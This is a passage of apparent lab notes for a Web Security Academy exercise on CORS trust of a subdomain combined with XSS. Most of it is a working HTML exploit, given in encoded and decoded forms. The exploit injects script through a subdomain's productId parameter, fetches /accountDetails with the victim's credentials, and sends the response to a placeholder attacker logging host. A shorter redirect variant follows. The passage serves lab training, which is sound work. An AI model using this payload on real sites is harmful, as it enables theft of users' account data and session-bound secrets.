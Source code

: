 >[!info]
>Make sure to set the file extension to .html or no extension also work in Exploit Server labs.

Make sure to encode the angle brackets \<> in the payload within the document.location to prevent breaking the payload. This payload is the exact same as the Basic Origin Reflection, except the payload is injected in the XSS vulnerable parameter of the Subdomain.

```html
<html>
<script>
    document.location="http://SUBDOMAIN.VULNERABLE-APPLICATION.com/?productId=4%3cscript%3e var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://ATTACKERS-SERVER-LOG-LOCATION.net/log?key='%2bthis.responseText; };%3c/script%3e&storeId=1"
</script>
</html>
```

The decoded version being:

```html
<html>
<script>
   document.location="http://SUBDOMAIN.VULNERABLE-APPLICATION.com/?productId=4
      <script> 
         var req = new XMLHttpRequest(); 
         req.onload = reqListener;
         req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true); 
         req.withCredentials = true; 
         req.send();
         function reqListener() {
            location='https://ATTACKERS-SERVER-LOG-LOCATION.net/log?key='+this.responseText; 
      };</script>&storeId=1"
</script>
</html>
```

Another version is the following:

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Document</title>
    </head>
    <body>
        <h1>Hello</h1>

        <script>
            window.location ="http://stock.ID.web-security-academy.net/?productId=&storeId=3"
        </script>
    </body>
</html>
```
